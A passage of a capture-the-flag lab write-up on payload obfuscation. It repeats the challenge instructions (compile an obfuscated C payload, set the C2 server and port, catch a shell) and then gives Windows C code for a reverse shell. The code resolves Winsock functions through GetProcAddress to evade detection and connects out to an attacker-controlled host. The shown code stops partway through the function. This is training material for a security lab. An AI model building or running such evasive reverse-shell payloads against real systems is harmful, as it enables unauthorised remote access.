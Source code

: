 ```c
} 
```

Once sufficiently obfuscated, compile the payload on the AttackBox or VM of your choice using GCC or other C compiler. The file name must be saved as `challenge.exe`. Once compiled, submit the executable to the webserver at `http://MACHINE_IP/`[.](http://machine_ip/) If your payload satisfies the requirements listed, it will be ran and a beacon will be sent to the provided server IP and port.

Note: It is also essential to change the `C2Server` and `C2Port` variables in the provided payload or this challenge will not properly work and you will not receive a shell back. 

Note: When compiling with GCC you will need to add compiler options for `winsock2` and `ws2tcpip`. These libraries can be included using the compiler flags `-lwsock32` and `-lws2_32`


## Solution
---

Based on the exercise, we can modify this on the following way, make sure to change it to your `IP and PORT`:

```c
// challenge.c
#include <winsock2.h>
#include <windows.h>
#include <ws2tcpip.h>
#include <stdio.h>

#define DEFAULT_BUFLEN 1024

typedef int   (WSAAPI* WSASTARTUP)(WORD, LPWSADATA);
typedef SOCKET(WSAAPI* WSASOCKETA)(int, int, int, LPWSAPROTOCOL_INFOA, GROUP, DWORD);
typedef unsigned long (WSAAPI* INET_ADDR)(const char*);
typedef u_short (WSAAPI* HTONS)(u_short);
typedef int   (WSAAPI* WSACONNECT)(SOCKET, const struct sockaddr*, int,
                                   LPWSABUF, LPWSABUF, LPQOS, LPQOS);
typedef int   (WSAAPI* CLOSESOCKET)(SOCKET);
typedef int   (WSAAPI* WSACLEANUP)(void);

void runn(char* serv, int Port) {
    // 1. Load ws2_32.dll and grab the functions
    HMODULE hws = LoadLibraryW(L"ws2_32.dll");
    WSASTARTUP   myWSAStartup  = (WSASTARTUP)  GetProcAddress(hws, "WSAStartup");
    WSASOCKETA   myWSASocketA  = (WSASOCKETA)  GetProcAddress(hws, "WSASocketA");
    INET_ADDR    myinet_addr   = (INET_ADDR)   GetProcAddress(hws, "inet_addr");
    HTONS        myhtons       = (HTONS)       GetProcAddress(hws, "htons");
    WSACONNECT   myWSAConnect  = (WSACONNECT)  GetProcAddress(hws, "WSAConnect");
    CLOSESOCKET  myclosesocket = (CLOSESOCKET) GetProcAddress(hws, "closesocket");
    WSACLEANUP   myWSACleanup  = (WSACLEANUP)  GetProcAddress(hws, "WSACleanup");

    // 2. Initialize, create & connect socket
    WSADATA version;
    myWSAStartup(MAKEWORD(2,2), &version);

    SOCKET S0 = myWSASocketA(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, 0, 0);
    struct sockaddr_in addr = {0};
    addr.sin_family      = AF_INET;
    addr.sin_addr.s_addr = myinet_addr(serv);
    addr.sin_port        = myhtons(Port);

    if (myWSAConnect(S0, (SOCKADDR*)&addr, sizeof(addr), NULL, NULL, NULL, NULL) 
        == SOCKET_ERROR) {
        myclosesocket(S0);
        myWSACleanup();
        return;
```